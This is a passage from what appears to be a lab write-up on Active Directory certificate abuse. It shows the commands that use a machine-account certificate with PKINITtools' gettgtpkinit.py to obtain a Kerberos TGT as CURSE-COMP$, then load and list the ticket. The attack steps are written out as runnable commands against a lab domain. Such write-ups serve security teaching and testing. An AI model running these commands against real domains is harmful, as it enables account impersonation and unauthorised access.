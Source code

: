 ![Windows client looking for updates](assets/img/wireshark.png)

Since we got the certificate let's authenticate with PKINIT to the domain. We use then PKINITools  [PKINITools](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) kit's gettgtpkinit.py to obtain our TGT:


```bash
~ python3 /opt/PKINITtools/gettgtpkinit.py -pfx-base64 \$(cat a.b64) 'jjk.local/CURSE-COMP$' 'curse-comp.ccache' -dc-ip 192.168.56.105
```
![Asking  for tgt with PKINIT](assets/img/Ask_TGT_PKINIT.png)


Once we got the TGT, we load it in memory with KRB5CCNAME export command. The klist command allows us to list the loaded Kerberos tickets, we can see that we have obtained a TGT as CURSE-COMP$, the machine account we ask certificate for.

```bash
~ export KRB5CCNAME=curse-comp.ccache
~ klist
```

![klist after w11 obtained TGT](assets/img/klist-w11.png)
